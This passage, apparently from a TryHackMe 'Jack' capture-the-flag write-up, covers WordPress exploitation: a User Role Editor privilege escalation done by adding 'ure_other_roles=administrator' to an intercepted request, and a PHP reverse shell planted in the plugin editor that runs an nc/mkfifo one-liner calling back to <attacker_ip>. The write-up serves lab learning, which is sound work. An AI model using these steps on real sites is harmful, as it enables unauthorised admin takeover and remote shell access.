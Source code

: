 ## Exploitiation 
Use the credentials found for wendy to log in to the `wp-admin` page. Search in the metasplitable for WordPress privilege escalation exploits

![image](https://github.com/user-attachments/assets/53f7ebec-b2e2-4b19-9d9b-5b5376cc187c)

```bash
searchsploit wordpress privilege 
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------------------------------------- 
WordPress Plugin User Role Editor < 4.25 - Privilege Escalation                            | php/webapps/44595.rb
```

we will use **User Role Editor** plugin. Copy the script to your current working directory.

```bash
searchsploit -m 44595.rb        
  Exploit: WordPress Plugin User Role Editor < 4.25 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44595
     Path: /usr/share/exploitdb/exploits/php/webapps/44595.rb
    Codes: N/A
 Verified: False
File Type: Ruby script, ASCII text, with very long lines (987)
Copied to: /home/kali/Documents/THM/jack/44595.rb

```
In the script under the Send HTTP POST method, that is what it will send when we press **update profile**.

![Screenshot_2025-06-26_07_28_07](https://github.com/user-attachments/assets/7edab6c5-9bb0-4592-ba95-cda9dc563f9a)

Use **Burp Suite** to intercept the send request and edit it. 

![Screenshot_2025-06-26_07_34_08](https://github.com/user-attachments/assets/1c295c71-39c4-492f-8bff-f74fa5e987bd)

Add `ure_other_roles=administrator` field to the POST request. Then click **forward**.

![image](https://github.com/user-attachments/assets/4a6ce176-9419-495b-9c3e-36de6b140545)


## Getting Reverse Shell

Now it is time to add our [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to the plugin editor, and start listening for the target. 
visit the **plugin editor** and type 

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <listening_port> >/tmp/f") ?>
```
